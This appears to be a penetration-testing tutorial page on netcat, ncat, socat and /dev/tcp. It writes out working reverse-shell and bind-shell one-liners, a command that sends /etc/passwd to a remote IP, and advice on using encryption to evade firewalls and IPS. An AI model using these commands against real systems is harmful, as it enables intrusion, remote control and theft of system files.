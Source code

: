 # Utilities

## Netcat

Using netcat is very simple: just enter the IP and then the port. This establishes the connection to the service and, in the example below, displays the FTP banner.

```
$ nc -v www.businesscorp.com.br 21

Connection to www.businesscorp.com.br (37.59.174.225) 21 port [tcp/ftp] succeeded!
220 ProFTPD 1.3.4a Server (FTP) [::ffff:37.59.174.225]
```

If we want to connect to a web service, we need to send a request (GET, HEAD, POST, etc), along with the location we want to access (in the example below we used “/”) and also the HTTP version. Remember that if it's HTTPS, you'll need to send the **host.** header.

```
$ nc -v www.businesscorp.com.br 80
HEAD / HTTP/1.0
```

To open a port on the machine for another host to connect, we use netcat as follows. In this case, the other host simply uses the machine's IP and port to establish the connection.

```
$ nc -nlvp 4444

Listening on 0.0.0.0 4444
```

### File transfer

If you want to transfer files, just use the following method. First we open the port on the machine that wants to receive the file, inserting the “>” indicating that whatever is sent to this connection will be saved in the defined file name.

```
nc -nlvp 1337 > xpto.txt
```

Now all you have to do is connect to this IP and enter the port and the file to be sent

```
nc -v 192.168.0.10 1337 < xpto.txt
```

### Creating a honeypot

If we want to simulate an open door on a machine to serve as a honeypot, we do the following.

```
while true; do sudo nc -nlvp 21 1>> log.txt 2>> erro.txt; done;
```

### Reverse Shell

Netcat is also used when we want to get a reverse shell. We can open a port on our machine and on the target machine send the connection as follows.

```
nc <ip> <port> -e /bin/bash
```

The idea of the `reverse shell` is to bypass the firewall, once we have discovered an outgoing port on the target network, we can take advantage of this by making the target machine connect to ours, thus sending a shell. We can also generate through these sites.

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md" %}

{% embed url="https://www.revshells.com/" %}

## Ncat

Ncat is an evolution of netcat, the difference is that it supports encryption and therefore it is not possible to clearly read what is transmitted during communication. We then need to generate a certificate and a key.

```
$ openssl req -x509 -newkey rsa:2048 -keyout my-key.pem -out cert.pem -days 10
```

To open the connection, you will be asked to use the password you entered.

```
$ ncat -nlvp <port> --ssl-key my-key.pem --ssl-cert cert.pem
```

To connect, we need to pass one more parameter.

```
$ ncat -vn <ip> <port> --ssl
```

With encrypted communication, the firewall, IPS or similar, may have more difficulty analyzing the packets that are being transmitted for possible blocking.

## Socat

In socat, we can open a specific port like this (by default it asks for two addresses, so the "dash" is used as an alias to say that it does not have another address).

```
$ socat tcp4-listen:<porta> -
```

To connect, we can use any utility and enter the IP and port that was opened.

Now, using socat to connect, it looks like this.

```
$ socat tcp4:<ip>:<port> -
```

If we want to send /bin/bash

```
$ socat tcp4-listen:<port> EXEC:/bin/bash
```

## /dev/tcp

`/dev/tcp` also has some features in case we don't have access to the other utilities. When we use it, we open a tcp socket with a specific IP address and port. We can send a message or a file.

```
$ cat /etc/passwd > /dev/tcp/10.10.10.5/1337
```

If we want to send a bash, we do it as follows (the -i parameter means interactive).

```
$ bash -i > /dev/tcp/10.10.10.5/1337 0>&1 2>&1
```

We can also check if a port is open.

```
$ >/dev/tcp/www.businesscorp.com.br/21 && echo "port open"
port open
```

Remember that 0>&1 means that all stdin will be directed to stdout and 2>&1 means that all errors will be directed to stdout.

<figure><img src="../.gitbook/assets/utitilies.png" alt=""><figcaption></figcaption></figure>

STDIN - 0\
STDOUT - 1\
STDERR - 2

